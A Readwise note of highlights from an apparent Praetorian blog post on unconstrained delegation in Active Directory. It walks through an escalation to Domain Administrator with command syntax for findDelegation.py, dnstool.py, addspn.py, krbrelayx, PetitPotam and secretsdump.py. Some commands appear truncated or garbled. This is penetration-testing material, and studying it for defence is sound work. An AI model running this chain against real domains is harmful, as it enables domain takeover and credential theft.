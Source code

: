 ```yaml
---
author: "Thomas Tan"
aliases: "Unconstrained Delegation in Active Directory"
tags: RW_inbox, readwise/articles
url: https://www.praetorian.com/blog/unconstrained-delegation-active-directory/?__readwiseLocation=
date: 2025-04-24
summary: Overview Unconstrained delegation is a feature in Active Directory that allows a computer, service, or user to impersonate any other user and access resources on their behalf across the entire network, completely unrestricted. A typical example of a use case for unconstrained delegation is when certain services require access to another server or back-end database. […]
The post Unconstrained Delegation in Active Directory appeared first on Praetorian.
---
```

# Unconstrained Delegation in Active Directory

![rw-book-cover](https://www.praetorian.com/wp-content/uploads/2021/01/cropped-Praetorian-Favicon-32x32.png)

## Highlights


Unconstrained delegation is a feature in Active Directory that allows a computer, service, or user to impersonate any other user and access resources on their behalf across the entire network, completely unrestricted. [](https://read.readwise.io/read/01j5xag5w3t6f9hyn8zz5c0mfp)



When a user authenticates to a computer with unconstrained delegation, that user’s Kerberos Ticket Granting Ticket (TGT) gets saved to that computer’s memory so the computer can impersonate the authenticated user when required for accessing resources on that user’s behalf. [](https://read.readwise.io/read/01j5xagwfy30dmpvqvabd4tkvw)



Enumeration
 Using the Impacket suite of tools, all delegation rights within the domain can be enumerated with findDelegation.py.
 The syntax is as follows:
 `findDelegation.py -dc-ip domain.local/USERNAME`
 ![](https://www.praetorian.com/wp-content/uploads/2024/07/unconstrained-delegtaion-enumeration.png) [](https://read.readwise.io/read/01j5xahdgv2nh9hzsj4a9pwdry)



Abuse
 Once Praetorian had performed a kerberoasting attack and subsequently cracked the user’s ticket, Praetorian engineers abused this unconstrained delegation privilege to escalate themselves to Domain Administrator.
 To begin, Praetorian engineers added a DNS record for the Linux machine they were operating on. This was done with Dirkjanm’s dnstool.py. The syntax is as follows:
 `dnstool.py -u ‘domain/user’ -p -r attacker.domain.local -a add -t A -d` 
 Once Praetorian had assigned their machine a DNS record, Praetorian modified the Service Principal Name (SPN) of the user configured for unconstrained delegation. This was done with Dirkjanm’s addspn.py.
 ![](https://www.praetorian.com/wp-content/uploads/2024/07/unconstrained-delegation-abuse.png)
 The syntax is as follows:
 `addspn.py -u ‘domain/unconstraineduser’ -p ‘password’ –spn cifs/attacker.domain.com ‘DC.domain.com’`
 Once the SPN is modified, Praetorian could coerce authentication from the Domain Controller, relay the authentication with Dirkjanm’s krbrelayx, and escalate themselves to Domain Administrator.
 To set up the relay attack, the syntax is as follows:
 ![](https://www.praetorian.com/wp-content/uploads/2024/07/unconstrained-delegation-relay-attack.png)
 `krbrelayx.py -s DOMAIN.LOCALunconstraineduser -p ‘password’ –t DC.domain.com`
 Once krbrelayx is set up, to coerce authentication, a tool such as Coercer or PetitPotam can be used. Praetorian opted to use PetitPotam in this situation.
 **The syntax for PetitPotam is as follows:**
 `PetitPotam.py -u -d -p` 
 After PetitPotam runs, krbrelayx.py will intercept and relay the coerced authentication, and output a .ccache file for the Domain Controller. This can be imported as an environment variable with the command export KRB5CCNAME=DC.ccache. Once the .ccache file was set in the environment variable, Praetorian could dump a Domain Controller’s NT hash from the Domain Controller’s NTDS.dit using Impacket’s secretsdump.py, ultimately compromising the domain.
 ![](https://www.praetorian.com/wp-content/uploads/2024/07/unconstrained-delegation-syntax.png)
 **The syntax is as follows:**
 `secretsdump.py ‘domain.com/DC$@DC.domain.com’ -k -just-dc-user ADMIN` [](https://read.readwise.io/read/01j5xajqhkkqe1jztet4j4rhxx)

